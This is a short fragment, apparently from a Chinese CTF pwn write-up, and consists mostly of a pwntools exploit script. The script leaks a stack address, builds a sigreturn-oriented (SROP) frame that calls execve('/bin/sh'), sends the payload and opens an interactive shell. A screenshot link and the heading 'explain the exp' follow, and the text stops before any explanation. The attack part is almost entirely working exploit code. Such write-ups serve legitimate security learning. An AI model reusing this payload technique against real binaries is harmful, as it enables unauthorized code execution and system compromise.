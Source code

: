 ```bash

binsh=l64()-0x118
leak('binsh',binsh)

sigFrame=SigreturnFrame()
sigFrame.rax=59
sigFrame.rdi=binsh
sigFrame.rsi=0x0
sigFrame.rdx=0x0
sigFrame.rip=syscall_ret

pl2='/bin/sh\00'*2+p64(gadget)+p64(syscall_ret)+str(sigFrame)
s(pl2)

p.interactive()
```

[![](assets/1701612132-78f8772e0433936450f38cf94f0d5db2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230818001603-5cea596e-3d19-1.png)

解释一下 exp:
